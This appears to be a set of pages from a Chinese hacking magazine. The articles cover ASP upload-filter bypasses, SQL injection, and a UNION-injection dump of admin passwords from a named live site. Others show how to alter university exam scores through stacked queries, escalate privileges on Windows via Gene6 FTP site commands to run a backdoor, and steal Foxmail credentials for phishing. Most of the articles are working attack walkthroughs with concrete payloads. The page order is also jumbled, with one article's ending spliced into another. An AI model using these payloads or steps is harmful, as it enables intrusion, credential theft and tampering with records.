2. `filename=formPath&year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum&fileExt`

> 变量与常量：所谓变量，指在程序运行过程中随时可以发生变化的值；而常量则始终保持不变。

- 从变量 FilePath 中获取文件的保存路径。
- 用路径变量 formPath 加随机生成数字及扩展名，合成新的变量 `FileName`，即上传文件保存的路径及名称。

这里举例说明：选择 `111.jpg` 上传，若 FilePath 值为 `image`，传到 `upfile.asp` 后，`FileName` 会变成类似 `image/200512190321944973.jpg`。若将 FilePath 改为 `image/aa.asp\0`（`\0` 为二进制 00），服务器读取时会在 `\0` 处截断，后续被忽略，`FileName` 即变成 `image/aa.asp`，漏洞由此出现。

关于此漏洞的利用，可以配合上传工具或抓包后修改提交数据，将空字符改为二进制并提交。

### FileName

介绍过 FilePath（上传路径）过滤不严的漏洞，再来看一下 FileName（上传文件名）过滤不严造成的漏洞。上传文件名过滤不严的形式是多种多样的，这里介绍两种。

- 1. 动易文章

我们来看一下它的上传文件 `Upfile_Article.asp` 中的部分源码：

```asp
<%
Const UpFileType="rar|gif|jpg|bmp|swf|mid|mp3"
Const SaveUpFilesPath="../../UploadFiles"

dim upload,ofile,formName,SavePath,filename,fileExt

FoundErr=false
EnableUpload=false
SavePath = SaveUpFilesPath

sub upload_0()
  set upload=new upfile_class
  for each formName in upload.file
    set ofile=upload.file(formName)
    fileExt=lcase(ofile.FileExt)
    arrUpFileType=split(UpFileType,"|")
    for i=0 to ubound(arrUpFileType)
      if fileExt=trim(arrUpFileType(i)) then
        EnableUpload=true
        exit for
      end if
    next

    if fileExt="asp" or fileExt="asa" or fileExt="aspx" then
      EnableUpload=false
    end if

    if EnableUpload=false then
      msg="这种文件类型不允许上传"
      FoundErr=true
    end if

    if FoundErr<>true then
      randomize
      ranNum=int(900*rnd)+100
      filename=SavePath & year(now) & month(now) & day(now) & hour(now) & minute(now) & second(now) & ranNum & "." & fileExt
      ofile.SaveToFile Server.MapPath(FileName)
      msg="上传文件成功"
    end if
  next
  set upload=nothing
end sub
%>
```

```asp
if FoundErr<>true then
  randomize
  ranNum=int(900*rnd)+100
  filename=SavePath&year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum&"."&fileExt
  ofile.SaveToFile Server.MapPath(FileName)
  msg="上传文件成功！"
end if

next
set upload=nothing
end sub
%>
```

在这段源码中，用到了两个 `for` 循环、两个逻辑变量。`for each formName in upload.file` 用于取得所有上传文件名；`for i=0 to ubound(arrUpFileType)` 用于检测文件扩展名。逻辑变量是 `EnableUpload` 和 `FoundErr`。`EnableUpload` 表示扩展名是否合法；`FoundErr` 表示文件是否可以上传。

首先，构造一个有两个上传框的本地 HTML 文件，HTML 代码如下：

```html
<form action="http://www.***.com/admin/Article/Upfile_AdPic.asp" method="post" name="form1">
  <input name="FileName1" type="FILE" class="tx1" size="40">
  <input name="FileName1" type="FILE" class="tx1" size="40">
  <input type="submit" name="Submit" value="上传">
</form>
```

运行此 HTML，在第一个框内选择一个 JPG 图片（如 `111.jpg`），在第二个框内选择一个 Cer 文件（如 `222.cer`），点击“上传”同时提交两个文件，观察上传流程中逻辑变量的变化。

- 1) 进入第一个 `for`（读取文件名）之前，`FoundErr=False`，`EnableUpload=False`。先验证 `111.jpg`，第一关通过后 `EnableUpload=True`。
- 2) 第二关检查是否属于三种禁传类型，不属于，`EnableUpload` 仍为 `True`。
- 3) 第三关若 `EnableUpload=False` 则 `FoundErr=True`；此处由于前面是 `True`，`FoundErr` 仍保持可上传状态。
- 4) 第四关检查 `FoundErr<>True` 即可上传。由于前序变量状态满足条件，最终可上传。
- 5) 接着程序读取第二个文件 `222.cer`，进入第一关验证是否为允许上传类型。如果 `Cer` 属于此范围就将 `EnableUpload` 定义为 `True`。`Cer` 不属于该范围，所以保持原值。根据前面上传 `111.jpg` 后变量值“`EnableUpload` 的值保持为 `True`”，此时 `Cer` 文件的 `EnableUpload` 值仍为 `True`。
- 6) 再到第二关：`Cer` 同样不属于此限制范围，又跳过 `if` 语句。`EnableUpload` 的值仍保持为 `True`。
- 7) 又到第三关了，因为 `EnableUpload=True`，跳过了此关验证，直接进入第四关。回头看 `FoundErr` 的值，自 `Cer` 上传验证开始一直未出现 `FoundErr`，其值仍是 `False`。第四关中只要 `FoundErr` 不为 `True` 就可上传，所以 `Cer` 文件通过层层关卡进入服务器。

除了 `Cer` 格式，还可以上传 `asp `、`asp.` 的文件。方法是将上传框中的 asp 名称加入空格或小数点。上传到服务器后根据 Windows 文件命名规则会自动去除后面的空格和小数点，保存后即成为 ASP 格式。

- 2. 动感商务 2005

接下来介绍动感商务 2005 的上传漏洞。动易是由于上传多个文件引起的漏洞，而动感则是因为文件名过滤不严出现上传漏洞。下面是动感 2005 上传 `upfile.asp` 中的部分源码：

```vb
<%
Private Sub SaveFile_0()  ' 无组件上传
Set File = UploadObj.File("FormName")  ' 取得上传文件名
FileExt = FixName(File.FileExt)  ' 第一步，用 FixName 函数过滤扩展名
If CheckFileExt(FileExt) = False then  ' 第二步，用 CheckFileExt 检查过滤后的扩展名
  ErrCodes = 5
  EXIT SUB  ' 退出上传
End If
FileName = FormatName(FileExt)  ' 符合条件的话，调用 FormatName 生成文件名
If File.FileSize > 0 Then
  File.SaveToFile Server.MapPath(FilePath & FileName)
End If
End Sub
%>
```

我们看一下上传所涉及到的一些参数。

### A. FixName() 函数

```vb
Private Function FixName(ByVal UpFileExt)  ' 第一步的过滤函数，过滤特殊扩展名
If IsEmpty(UpFileExt) Then Exit Function
FixName = LCase(UpFileExt)  ' 将扩展名转换为小写字符
...
```

```vb
FixName = Replace(FixName, Chr(0), "")   ' 过滤二进制 00 空字符
FixName = Replace(FixName, "'", "")      ' 过滤单引号
FixName = Replace(FixName, "'", "")
FixName = Replace(FixName, "asp", "")
FixName = Replace(FixName, "asa", "")
FixName = Replace(FixName, "aspx", "")
FixName = Replace(FixName, "cer", "")
FixName = Replace(FixName, "cdx", "")
FixName = Replace(FixName, "htr", "")
FixName = Replace(FixName, "shtml", "")
End Function
```

从中我们可以看出，应用程序 `Asp.dll` 映射的类型全部过滤了。除此之外，小数点、单引号也被过滤，甚至连 `Chr(0)` 都过滤了。

> 知识点：`Chr(0)` 是什么？它就是 16 进制的 `0x00`，表示为二进制 `00000000`，也就是前面在 `FilePath` 上传漏洞中大量出现的空字符。

### B. CheckFileExt() 函数

```vb
Private Function CheckFileExt(FileExt)  ' 第二步的判断函数，判断文件类型是否合乎要求
Dim ForumUpload,i
CheckFileExt=False
If FileExt="" or IsEmpty(FileExt) Then   ' 第一次
  CheckFileExt = False
  Exit Function
End If
If FileExt="asp" or FileExt="asa" or FileExt="aspx" or FileExt="shtml" Then   ' 第二次
  CheckFileExt = False
  Exit Function
End If
ForumUpload = Split(InceptFile,",")   ' 第三次
For i = 0 To UBound(ForumUpload)
  If FileExt = Trim(ForumUpload(i)) Then
    CheckFileExt = True
    Exit Function
  Else
    CheckFileExt = False
  End If
Next
End Function
```

此函数对经过 `FixName()` 过滤后的扩展名再次判断，共三次检查：第一次判断传递过来的扩展名是否为空；第二次判断扩展名是否属于 ASP、ASA 等四种限制类型；第三次将扩展名同后台自定义的上传扩展名对比，符合则允许上传。

### C. FilePath 值

其所用到的 `FilePath` 在 `upload.asp` 中，其值如下：

```vb
if info_name="bbs" then
    FilePath = "/bbs/upload/"
else
    FilePath = "/uploadpic/"
end if
```

`FilePath` 是一个常量，从这条路找漏洞行不通。文中以上传 `111.cer` 为例，说明在 `FixName(File.FileExt)` 过滤后扩展名会被处理为空，传入 `CheckFileExt()` 后因 `If FileExt="" or IsEmpty(FileExt)` 被拒绝上传；随后分析如何通过扩展名构造绕过前几次判断。

右栏继续分析：通过在后台类型中加入类似 `Ccerer`、`Cer` 等项，可使扩展名在 `FixName()` 后变为 `Cer`，从而通过多重检测。文中还讨论了 `Trim()`、小数点过滤与空格处理对上传类型判断的影响，并给出为何 `aaspsp` 等构造最终仍会失败的原因。

适合读者：网络爱好者、脚本爱好者、入侵爱好者

前置知识：无

## 浅析注入漏洞的查找


文/寂寞的刺猬

阿 D、NBSI、HDSI 等工具可以快速发现注入点，但若不理解注入原理，容易停留在“工具菜鸟”阶段。作者建议深入程序内部，从源码入手掌握第一手资料。

`Request` 是 ASP 内建对象，可用于获取客户端信息；常见产生注入点的入口包括 `QueryString`、`Form`、`Cookies` 等。文中强调应检查程序是否对这些输入做了过滤（如 `replace`、`instr` 等），并沿着 `request` 参数继续追踪。

### 注入点的查找

测试站点时不应只依赖注入工具“狂轰乱炸”，更有效的方法是阅读源码并定位参数处理逻辑。源码并不神秘，持续练习可逐步掌握其规律。

- `Request.QueryString`：获取通过 GET 或 URL 变量提交的信息。
- `Request.Form`：获取通过 POST（Form）提交的信息。
- `Request.Cookies`：获取客户端浏览器 Cookies（如用户名、密码等）。

SQL 语句中使用这个提交值为止。如果中间没有上面的层层关卡，那么一个注入点基本上就形成了。

### SQL 查询语句

1. 查询语句：`SELECT [<字段名1>[,<字段名2>...]] FROM <表名> [WHERE <条件表达式> [AND|OR <条件表达式>...]]`
2. 更新语句：`UPDATE <表名> SET <列名1>=常量表达式1[,<列名2>=常量表达式2 ...] WHERE <条件表达式> [AND|OR <条件表达式>...]`
3. 删除语句：`DELETE FROM <表名> [WHERE <条件表达式> [AND|OR <条件表达式>...]]`

在 SQL 语句中，注入点出现频率最高的是 Select 语句，而注入参数的出没地通常都是在 Where 之后的条件中。当一个没有过滤的 Request 语句进入 SQL 语句后，就是注入大显身手的时候了。不过在进行注入之前还要先看一下该参数是直接引入，还是用单引号引入的。另外还要注意该参数是否还应用于其它 SQL 语句中，然后根据不同的信息选择不同的处理方式：或直接暴破，或 UNION 查询。如果存在注入点的程序使用的是 SQL 数据库，那我们就不仅仅是得到一些重要信息了，甚至有可能添加管理员！

下面以“蚂蚁影院 3.0”版注销用户（`wanlogin.asp`）中的一段源码做个介绍：

```asp
<%
if request("userid")<>"" then
  set rst=server.createobject("adodb.recordset")
  sql="select money,online from users where userid='"&request("userid")&"' and password='"&md5(request("pws"))&"'"
  rst.open sql,conn,1,3
  if rst.eof and rst.bof then
    response.write "<script>alert('用户名或密码错误!');history.back();</script>"
  else
    response.write "<script>alert('恢复成功你现在可以登录');</script>"
    response.write "<script language=Javascript>location.href='index.asp'</script>"
  end if
  rst.close
  set rst=nothing
  conn.close
  set conn=nothing
end if
%>
```

在其流程中，首先判断取得的提交值 `userid` 是否为空，不为空的话就进入 SQL 语句中验证取得的用户名及密码是否和数据库内的用户名及密码一致。如果不一致则弹出“用户名及密码错误”，一致就弹出“恢复成功”。这也是一段典型的注入漏洞源码，并且接收的方式还是使用的 Request，这就给我们提交注入语句提供了很大的方便。

我们在 URL 中提交如下字符串：`http://127.0.0.1/wanlogin.asp?userid=aa&pws=bb`，因为没有 aa 这个用户，所以弹出了错误窗口。而我们将 aa 换成如下字符串：`aa' or '1=1 or '1'='1`，`pws` 保持不变。提交语句变成了这样：

`select money,online from users where userid='aa' or '1=1 or '1'='1' and password='md5(bb)'`

以往我们所见到的测试代码一般为 `or 1=1`，而这里却多用了一个 `or`。解释一下：在逻辑运算符中，`and` 的优先级别高于 `or`，程序运行会先运算后面的 `'1'='1' and password='md5(bb)'`，因为密码是随便输入的，所以 `and` 后的 `password` 值为假，而 `and` 前的 `'1'='1'` 虽然为真，但真 `and` 假=假，所以这个 `and` 的运算值为假。再来看 `or` 运算，因为前面的用户名也是不存在的，其值当然为假。如此一来，Where 后的逻辑运算就成了如下表达式：假 `or` 真 `or` 假，结果值还是为真，这样就会弹出“恢复成功”窗口。

如果将其中的 `or 1=1` 改为 `or 1=2`，那逻辑表达式则成了：假 `or` 假 `or` 假，值当然也为假，弹出的则是“用户名或密码错误”的窗口。我们根据弹出窗口的不同可以构造一些特殊字符，然后猜测出需要的数据。如查询管理员 ID 的语句，将 `or` 后的 `1=1` 更改为 `1=(Select top 1 id from admin)`，这里暂用 `admin` 表示管理员表名。如果存在 ID 为 1 的管理员，那么就会弹出“恢复成功”的窗口。如果不是则要用其它数字来测试了。猜出管理员 ID 后，我们还可以猜长度、名称。如此循环，最终就能获得管理员的用户名和密码。

上面提到的是 `Request.QueryString` 和 `Request.Form` 的注入方法，而使用 `Request.Cookies` 注入则需要通过修改本地的 Cookies 值来实现。Cookies 注入相对麻烦一些，但原理和前面的注入是一样的，这里不再赘述。

### 注入点的修补

攻守之间是对立互补的，明白了什么地方存在注入点，再来修补也就容易多了。每个程序对注入的过滤函数都不相同，我们在修补自己站点上的注入点时，可参照其他程序中的过滤函数，也可根据自己的需要，单独过滤一些敏感字符。这里以上面的例子说明一下如何修补注入点。前面的 SQL 语句中有这一句 `userid='"&request("userid")&"'"`，这其中对提交来的参数是用单引号来引入的，我们加入一个 `replace()` 函数对单引号进行过滤，修改后的语句为 `userid='"&replace(request("userid"),"'","")&"'"`。以后用户再提交带有单引号的字符串时，`Replace()` 会将单引号过滤为空。如此一来，提交的特殊字符也就失去了意义。

当然，我们还可以在 `userid` 进入 SQL 语句之前，对其长度进行一下判断。如果超过规定的长度，就弹出错误，中止页面执行并返回到指定的页面。总之注入漏洞是可以避免的，即使出现了注入点，只要我们能够明白它出现的原因，就能很容易地为其修补了！

> **小知识：** SQL 注入是从正常的 WWW 端口访问的，而且表面看起来跟一般的 Web 网页访问没什么区别，所以现在绝大多数的防火墙都不会对 SQL 注入发出警报。如果管理员没查看 IIS 日志的习惯，可能被入侵很长时间都不会发觉。国内的网站用 ASP+Access 或 SQL Server 的占 70% 以上，PHP+MySQL 占 20%，其他的不足 10%。所以 SQL 注入还是非常有前景的。我们在注入的时候会碰到很多意外的情况，能不能根据具体情况进行分析，构造巧妙的 SQL 语句，从而成功获取想要的数据，是高手与“菜鸟”的根本区别。

- 适合读者：网络爱好者、入侵爱好者  
- 前置知识：无

## VIP会员学习成果展
### 拿什么拯救你？互联星空


文/图 VIP会员｜武夫

互联星空大家听说过吧？认为它安全性怎么样？三重保险：两重防盗？让我来告诉你真实情况，脆弱得跟块玻璃一样，一碰就碎。当然，我指的不是防弹玻璃。

经过我的努力，发现全国互联星空的不少分站都存在漏洞。这说明我们国家的安全意识还是太薄弱了。今天我就以某地互联星空的冲印系统为例给大家演示一下。由于我对PHP不太熟悉，所以文章难免有不到之处，希望大家包涵。另外，为了提高技术，本文介绍的是手工操作的方法。

今天开刀的地址是“http://ephoto.xxx.chinavnet.com/”。左下角有个“服务介绍”，我们随便打开一个“http://ephoto.xxx.chinavnet.com/helpcontent.php?nHelpID=5”。先测试一下，在后面加入“and 1<2”则返回正常页面，“and 1<>1”则返回错误页面，如图1所示。


由此可以确定，此页面存在注入点。因为是PHP的整站系统，所以这里我们要用到 Union Select。常规的注入方法是不能成功的，我们这里要采用`/**/`绕过。继续测试，在地址后面加上“/**/and/**/1=1/**/union/**/select/**/1,2”，返回错误页面。我们再输入“/**/and/**/1=1/**/union/**/select/**/1,2,3”返回正确页面，如图2所示。


接下来我们的工作就是暴用户名和密码了。互联星空毕竟是数一数二的大站，所以我不指望他们能弱智到用Admin、User这些名称当表名。没想到才开始就卡壳了，看来只有换个角度想想。

这次从后台入手，很顺利地找到了后台“http://ephoto.xxx.chinavnet.com/manage/index.html”，用户名和密码都填“o' or '1'='1”，输入验证码，然后回车。嘿嘿，看看出现了什么？如图3所示。


真是“踏破铁鞋无觅处，得来全不费工夫”（脚本小子：这名字得我直爆），表名和用户的字段都出来了。我们来验证下正确性。在地址栏中输入“http://ephoto.xxx.chinavnet.com/helpcontent.php?nHelpID=5/**/and/**/1=1/**/union/**/select/**/1,2,3/**/from/**/t_sys_admin”，结果返回正确页面，说明表名正确。再来看看字段“...select/**/f_adminname,2,3/**/from/**/t_sys_admin”返回正常页面，说明字段也正确。

可是问题又来了，我们只有一个字段，怎么进后台呢？这就要我们努力地猜了，不过不要乱猜。我们可以发现字段名并不复杂，只是在前头多了个“F_”而已。就根据这个原则，我们来猜测，F_adminpass，不对，F_adminpwd，也不对，f_adminpassword，还不对……经过一段时间的努力，字段终于猜出来了，是F_password。再猜得其他字段F_adminid。

好，下面就是暴出用户名和密码了。我们在地址栏中输入“http://ephoto.xxx.chinavnet.com/helpcontent.php?nHelpID=5/**/and/**/1=2/**/union/**/select/**/f_adminname,2,3/**/from/**/t_sys_admin/**/where/**/f_adminid=1/*”看看得到什么（如图4所示）。

再将F_adminid的值依次改成2、3、4、5、6，我们就可以得到6个用户名了。


接着暴出密码：

“http://ephoto.xx.chinavnet.com/helpcontent.php?nHelpID=5/**/and/**/1=2/**/union/**/select/**/f_password,2,3/**/from/**/t_sys_admin/**/where/**/f_adminid=1/*”

得到第一个用户admin_admin的密码，如图5所示。


同理我们得到6个MD5加密过的32位密码，剩下的事情就是解密，当然，这一步就省略了。MD5查询站点和暴力破解工具满天都是，黑防近期也介绍过，随便找一个解决问题吧。

解密后得到5个密码，最为关键的admin_admin密码却没有得到……不过也没什么关系，顺利进入后台，如图6所示。


很失望，没什么可利用的地方。不过有意外收获，如图7所示，得到了网站的绝对路径。

| 错误信息 | 内容 |
|---|---|
| Fatal error: Call to a member function ... | 暴露系统绝对路径信息 |

图7

```text
http://ephoto.xx.chinavnet.com/helpcontent.php?nHelpID=5/**/and/**/1=2/**/union/**/select/**/load_file(char(68,58,92,112,104,112,100,111,99,115,92,109,97,110,97,103,101,92,112,105,99,95,97,117,100,105,116,46,112,104,112)),2,3
```

这解释一下，其中的load_file()是载入某文件，char()是转成ASCII码的函数，char()中的数字就是“d:\phpmydoc\manage\pic_audit.php”的ASCII编码。

我们顺利读出文件，如图8所示。


文件都读出来了，只要有耐心，我们就可以找到MySQL中的ROOT密码，进而能够获得WebShell。不过到这里其实已经结束了，黑要适度才有意思。

> 脚本小子：最近有读者打电话说自己被骗了，别人帮他改了考研分数，收了5000大元，最后成绩正式下来却什么也没改，而钱已经过户。究竟此骗局是如何操作的呢？据朋友说，改完分数后他通过网络查分系统核实过，确实改过了，内幕是什么呢？技术实现又是什么呢？带着这一连串问题，我们策划了本文……

- 适合读者：入侵爱好者、脚本爱好者  
- 前置知识：无

## 考研成绩修改的骗局


我们班有好多同学去年考研了，现在最关心的就是自己的成绩。每次上网他们都要我帮着查成绩。有的不仅想知道自己的成绩，还想提前知道自己的排名。更有甚者想通过歪门邪道修改成绩……检测过程中发现大部分高校都是存在漏洞的；帮别人查成绩什么的可以轻松做到，更为可怕的是，我们还可以随意修改别人的成绩，不信？那就来看看吧！

该学校是一所全国知名的大学，理工科类很强，但是他们的查分系统就不像学校那么厉害了。打开查分系统的网站一看，是ASP系统，主机应当是Windows，数据库应该是MSSQL。若系统存在SQL注入漏洞，我们就可以修改数据。现在来测试一下。

在输入考生身份证号和准考证号的地方分别输入“ddddddd”和“bbbbbbb”，如果系统没有对“'”等敏感字符过滤就会出错。提交后发现系统提示“准考证号必须填写数字”，如图1所示。

很明显是在客户端做了过滤，那么我们按照要求将准考证号改成数字111111之后提交，结果如图2所示。看来过滤得不是很好，很可能存在漏洞。


图1


图2

在身份证处提交 `ddddd' or 1=1--`（`--`是注释掉后面的SQL语句避免出错），返回如图3所示。


图3

看来我们提交的代码是被当作SQL语句执行了。我们继续提交：

```text
dddd' and user>0--    // 利用SQL Server报错特性查看数据库账户
```

权限看来不是很高，现在看看它支持多句查询不：

```text
dddd';--    // 利用 ; 匹配前面的字符串然后结束，测试是否支持多句查询
```

结果返回正常，看来是支持多句查询的。现在是想怎么玩就怎么玩的时候了。既然权限不是很高，拿系统权限也麻烦，就来试试改别人的成绩吧，很有意思的。

怎么样才能改别人成绩呢？显然要用到`Update`语句，这里支持多句查询当然可以执行`Update`了。还有就是`Update`操作的对象，也就是表的结构我们要知道。Update语句语法如下：`Update 表 set 字段=...`

现在的关键就是猜表的字段了。我们继续进行。在身份证处写上`ddd' having 1=1--`，结果如图4所示。


图4

轻易地把表和字段暴出来了。这里是利用Having语句和MSSQL的特性暴出表的结构内容。

> Microsoft OLE DB Provider for SQL Server 错误 '80040e14'：列 'kycj2006.ksbh' 在选择列表中无效，因为该列未包含在聚合函数中，并且没有 GROUP BY 子句。`/Score_search/06yjs_01.asp, 行 169`

是`kycj2006`表，其中有个`ksbh`字段。现在接着暴其他字段：`ddd' group by ksbh having 1=1--`，结果又出来一个，如图5所示。

> Microsoft OLE DB Provider for SQL Server 错误 '80040e14'：列 'kycj2006.xm' 在选择列表中无效，因为该列既不包含在聚合函数中，也不包含在 GROUP BY 子句中。`/Score_search/06yjs_01.asp, 行 169`

继续提交`ddd' group by ksbh,xm having 1=1--`，这样就可以慢慢把所有的表都暴出来了。直到正常显示的时候就算是暴完了。最后我得到了这些在`kycj2006`表中的字段：`ksbh,xm,ksfsm,zzll,wgy,ywk1,ywk2,zf,zjhm`。很明显，`ksbh`是准考证号，`zjhm`是身份证号，`xm`代表名字，后面的就是分数了。

```sql
ddd'; update kycj2006 set ywk2='148' where zjhm='360103198504180***'--
```

此句意义如下：将身份证为360103198504180***……的专业课分数改成148。（脚本小子：注意不要超过150，不然就不像真的了。）你也可以自己构造其他有意思的语句，只要语法正确就可以。我们提交之后发现没有出错，再去查分看看，成绩果然改变了。记得如果修改了单科成绩，总分也要做相应的修改。

到这里漏洞就介绍完了，整体没有什么技术可言，但是这么一个没有任何过滤的简单字符注入点，对这些高校造成了灾难性的打击。修补过程很简单，过滤掉“'”就可以了，其实只要是涉及到数据库的操作我们都应该小心对待。对本文有什么问题欢迎到黑防论坛与我讨论。

写在最后，本文提到的方法其实也是社会上很多收取别人钱财而帮助别人改考研成绩的方法，表面看起来很有效果，但实际上真正发榜的时候，成绩是一分未变的。希望大家能明白个中的道理，不要上当受骗。

- 适合读者：网络爱好者、入侵爱好者  
- 前置知识：无

## 利用G6FTP实现 Windows 2003 提权

文/图 勇哥儿／路人甲


以前黑防有这样的一篇文章《用QQ文件共享漏洞彻底攻破Windows 2003的坚固堡垒》，它利用第三方软件来攻破Windows 2003。与此类似的还有利用Serv-U漏洞，利用Serv-U来提权可能大家都很熟了，不过我遇到的并不是QQ，也不是Serv-U，那么是否也能提权成功呢？

最近在研究某服务器时发现上面除了装有G6FTP外，没有其他第三方可用软件。得到WebShell后如何提权呢？G6FTP以前我从来没遇到过，根据经验来看，如果能提权的话就只能靠它了。如果有的朋友要问为什么，道理其实很简单。最近Microsoft没有出新漏洞，所以我们只能靠第三方软件了。


### 第一步：拿WebShell

拿到WebShell可能很多朋友都觉得简单，方法如下：利用明小子的旁注工具，搜索一下看看上面有多少站点。结果非常惊人，一共有128个站点。看来运气不错，如图1所示，但是利用网站批量检测功能却没有找到默认的数据库。

无奈，只能一个一个地分析了。后来发现一个BBSXP论坛，上面只有几个注册用户，看起来是刚装不久。赶紧试一下默认的用户名和密码以及默认的数据库，结果都不对。再看看版本，“Powered by BBSxp 5.15/Licence 1998-2005”。老版本了，拿出我以前编的BBSXP完全版漏洞测试工具试试，很快前后台MD5密码都出来了，如图2所示。

利用工具Md5Crack很快就爆破出来了密码，轻松进入后台。进入后台上传WebShell就容易得多了。


图2


图3

前面黑防有一篇文章就是讲进入后台、如何上传WebShell的，方法有十来种，非常不错。建议大家多看黑防文章，看多了，经验自然就丰富了。这可不是做广告，是啥呢——实话实说吧。

进入后台添加上传类型Cer，然后在前台发一个帖子，把你的WebShell当附件上传上去。

### 第二步：提权前的准备

拿到最高权限才是目的，我们先通过WebShell查看一下服务器的信息。经过查看，发现Wscript.shell显示True，这说明通过它能执行命令，这是关键。利用`netstat -an`命令可以查看端口及服务器的链接，通过`net user`可以查看用户情况，通过`ipconfig /all`可以查看网卡配置信况。通过浏览`C:\Progra~1`目录看到装有Gene6 FTP，进入`C:\Progra~1\Gene6 FTP Server\RemoteAdmin`目录，下载Remote.ini回来，内容如下：

```ini
[Server]
IP=127.0.0.1,8021\r\n  // IP和端口号
GrantAllAccessToLocalHost=0
[Acct=Administrator]  // 管理员用户名
Enabled=1
Rights=0
Password=E10ADC3949BA59ABBE56E057F20F883E  // 32位MD5密码
```

密码如此简单，竟然是123456，连接端口是8021，管理员用户名是Administrator，下面做什么呢？当然是通过8021端口连接它了。用什么连接它呢？用NC和微软自带的FTP连过去发现不行。看来解铃还需系铃人，还是用Gene6 FTP连吧。

> Gene6 FTP：比较新的FTP服务器软件，支持RFC-959标准并增强其中的某些功能，上传和下载都可以续传，实时查看运行状态、占用带宽，还有很多功能。最新发布的新版本3.0还拥有远程管理功能。如图3所示。

安装完毕，新建一个Server，填入远程IP、连接端口、用户名，结果如图4所示。提示出错：非法登录或密码错。什么原因呢？


图4

仔细看了一下刚才的Remote.ini文件第一行内容是`IP=127.0.0.1,8021\r\n`，难道和IP有关？这又让我想起当时玩黑防实验室过关游戏的时候，那位万元笔记本大奖得主。他过第九关的方法是这样的：MySQL的端口3306，但没有远程连接用户，而是通过端口重定向，把它定向到另一端口，然后远程连接上去。拿出LCX的端口重定向工具，把8021转到8022上去，命令如下：`lcx.exe tran 8022 127.0.0.1 8021`。现在再通过Gene6远程连接，端口要改成8022，终于成功了！

### 第三步：提权

连接成功后，新建一个用户yongger，设置它的Access rights属性，功能是设置用户所在的目录、目录中文件的权限。需要注意的是，它不像Serv-U那样可以设置可执行权限。设置好后，我们可以FTP登录了。可能有的朋友要问了，还是没有执行权限，我们如何执行后门程序呢？又如何来提权呢？不要急，慢慢来，关键的在后面。利用`put localfile remotefile`命令先把后门上传过去。

重点来了，接下来我们编写自己的命令，让它在FTP里执行我们的木马。刚才是设置Access rights属性，现在是设置Site commands属性，设置属性的目的是让用户自定义命令，在FTP里执行。点击右上角的绿色加号按钮来添加一条新命令，Command栏中填写命令自定义……

适合读者：网络爱好者、入侵爱好者。  

前置知识：无

## VIP会员学习成果展

## 由Foxmail开始的入侵

文/图 simeon


Foxmail在国内的用户非常多，很多管理员收信的时候喜欢设置成“记住密码”，尽管可以为大家带来不少方便，然而当主机被入侵后，所带来的损失无法估量。

> 小提示：如果是在肉鸡安装Foxmail，则在其安装目录路径下找不到“mail”文件夹，新建一个账号后，会自动出现。

### 下载Foxmail账号文件夹

在我们获得对方机器的Shell并且安装木马程序后，下一步的工作之一就是获取对方机器上的资料，其中Email邮箱是我们进行“钓鱼”和获取信息的一个重要来源。如果在对方机器上面发现安装了Foxmail，那么就到安装Foxmail的目录路径下找到“Mail”文件夹，如图1所示，将该文件夹下所有的文件全部搬回来。

### 克隆账号

打开Foxmail软件，在“账号”菜单中单击“新建”，接着就会出现“Foxmail用户向导”，在用户名中输入要克隆的账号。例如我们在肉鸡上面获取的Foxmail账号中有“张三”，则在此也输入“张三”，如图2所示。

对于后面的设置，我们随便输入什么都可以。设置完成后，单击“完成”按钮完成账号的克隆，然后关闭Foxmail软件。


图1


图2

……的命令名称，如Backdoor。Description里是对这个命令的描述，如“执行我的后门”。Execute里面填写后门所在的地址，这就是为什么先把后门利用put命令上传上去的原因，最后点击OK就可以了。

然后我们登录FTP，执行命令quote site backdoor，如图5所示。

很快我的PCShare就上线了。

本文主要是通过第三方软件Gene6 FTP来达到提权的目的，虽然以前没接触过此软件，但是通过端口重定向、远程管理、添加命令实现了后门的执行。在此整个过程当中，如果管理员的密码设置复杂，爆破不出来的话，系统就会更加安全。此文主要是给大家提供一种提权思路，同时也希望网管们把密码设置得更加复杂些，所谓“千里之堤，溃于蚁穴”。


图5

### 复制文件夹

这时在Foxmail的安装路径下，如“C:\Program Files\Foxmail\mail”，会出现刚才我们新建的账号“张三”。到Mail目录下，将需要克隆账号的文件夹复制到Foxmail安装目录并覆盖已存在文件，如图3所示。


### 获取密码

运行Foxmail，选中“张三”，然后右键单击，在弹出的菜单中依次选择“属性”→“邮件服务器”。如果用户在初始化设置时输入了密码，在这里会以*号显示密码。使用“*号密码查看器”就可以很快地获取Email的密码，如图4所示。


> 如果对方对账号进行了加密，则可以通过覆盖账号的方法查看Email密码。具体方法为：新建一个账号，注意对账号不要进行加密。关闭Foxmail，然后到“C:\Program Files\Foxmail\mail”下将新建的账号下的“Account.stg”文件复制到加密账号所在的邮件目录覆盖即可。

### 测试账号正确性

在Foxmail中直接单击菜单上“收取”，就可以收取对方的邮件。不过要注意，记得进入“账号属性”设置中将“在邮件服务器上保留备份”复选框选上，如图5所示，防止邮件的主人收不到邮件而产生怀疑！

### 登录邮件服务器

获得账号密码只是开始，我们还有后续动作。输入从账号中获取的SMTP邮件地址，页面提示协议错误。既然HTTP协议不行，我们就试试HTTPS协议，如图6所示。


这是比尔大叔的Exchange服务器，公司好多资料都在里面，如图7所示。


总结：通过这种方式获取的Email密码正确性在99%以上，而且一旦获取了Foxmail安装目录下的“mail”文件夹中的文件，基本上就打开了方便之门。利用其中的信息来进行“钓鱼”实在是再理想不过的了，而且还不容易被发现和跟踪。并且从社会工程学的角度来说，获得了Email密码同时也可能获得一些其他相关的重要账号，这对于我们获得高级权限来说是非常有用的。

应用这种方法获得Foxmail的账号密码实在是太容易了，微软的Exchange服务器安全性确实不错，不过服务器的安全性再好，也无法经受得住密码泄漏的考验。在此奉劝各位网络管理员，注意安全不仅仅需要在服务器上设置，还要注意自己所管辖范围内用户的账号密码的强度问题。只有从多方面考虑，我们才能做到真正意义上的安全防范。

适合读者：入侵爱好者，木马爱好者  

前置知识：无

## VIP会员学习成果展

## 让网马来得更猛烈些吧！


文/图【黑防VIP】忘了忘了

加入黑防VIP已经很长时间了，感觉自己成长了不少，也因此认识了许多良师益友。令我受益最深的是置军前辈，本人怀着十二分崇拜的心情一篇一篇地看完了他的溢出教程，看得自己痴迷心动，于是自己也想找个漏洞来试试。

因为本人前一段时间玩马，所以对网马情有独钟，目标就暂定为IE漏洞。

打开Nsfocus瞧瞧，直奔微软的版面，转悠了一圈，发现MS06-013好像挺不错的。

